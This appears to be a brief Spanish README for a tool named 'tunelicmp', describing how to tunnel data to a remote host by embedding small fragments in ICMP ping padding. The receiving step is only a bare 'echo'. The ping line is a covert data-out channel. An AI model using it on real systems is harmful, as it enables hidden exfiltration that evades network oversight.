 ## tunelicmp

Envio de datos, pequeños fragmentados en los paquetes ICMP :

ping $host -q -c 1 -W 1 -p "$str" 1>/dev/null

Recepcion de datos:

echo $str


http://www.hackingyseguridad.com/

#hackingyseguridad


